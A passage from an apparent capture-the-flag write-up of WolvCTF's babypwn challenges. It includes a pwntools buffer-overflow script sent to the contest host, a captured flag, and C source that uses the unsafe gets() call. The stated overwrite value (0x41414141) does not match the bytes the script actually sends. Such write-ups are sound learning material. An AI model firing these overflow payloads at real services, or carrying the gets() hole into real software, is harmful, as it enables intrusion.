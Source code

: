 so all you need to place the value 0x41414141 after the buffer.

I run this code and got the flag:

```python
import pwn

r = pwn.remote('babypwn.wolvctf.io', 1337)

payload = "A"*64 + '\x14\x14\x14\x14'

r.sendline(payload)
r.interactive()
```

**wctf{pwn_1s_th3_best_Categ0ry!}**

## babypwn2
As the first one I had the code

```c
#include <stdio.h>
#include <unistd.h>

/* ignore this function */
void ignore()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void get_flag() 
{
    char *args[] = {"/bin/cat", "flag.txt", NULL};
    execve(args[0], args, NULL);
}

int main() 
{
    ignore();
    char buf[0x20];
    printf("What's your name?\n>> ");
    gets(buf);
    printf("Hi %s!\n", buf);
    return 0;
}
```
All I need is to write the address of **get_flag()** after 40 bytes

so first lets get the address of function:
**echo info functions | gdb ./Desktop/wolves/babypwn2| grep get_flag**

![add](/assets/images/CTF/wolv/pwn.png)
